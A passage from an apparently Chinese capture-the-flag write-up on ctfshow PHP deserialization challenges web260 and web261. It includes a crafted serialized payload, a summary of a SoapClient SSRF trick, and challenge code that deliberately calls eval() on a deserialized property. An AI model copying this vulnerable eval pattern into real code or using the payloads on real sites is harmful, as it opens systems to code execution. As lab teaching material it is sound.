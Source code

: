 总结

-不存在的方法触发__call

-无代码通过原生类SoapClient

-SoapClient使用查询编写利用

-通过访问本地Flag.php获取Flag

## web260

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

if(preg_match('/ctfshow_i_love_36D/',serialize($_GET['ctfshow']))){
    echo $flag;
}
```

序列化字符串

```php
<?php
$s = '/ctfshow_i_love_36D/';
echo urlencode(serialize($s));
```

```
?ctfshow=s%3A20%3A"%2Fctfshow_i_love_36D%2F"%3B
```

## web261

```php
<?php

highlight_file(__FILE__);

class ctfshowvip{
    public $username;
    public $password;
    public $code;

    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
            die('error');
        }
    }
    public function __invoke(){
        eval($this->code);
    }

    public function __sleep(){
        $this->username='';
        $this->password='';
    }
    public function __unserialize($data){
        $this->username=$data['username'];
        $this->password=$data['password'];
```
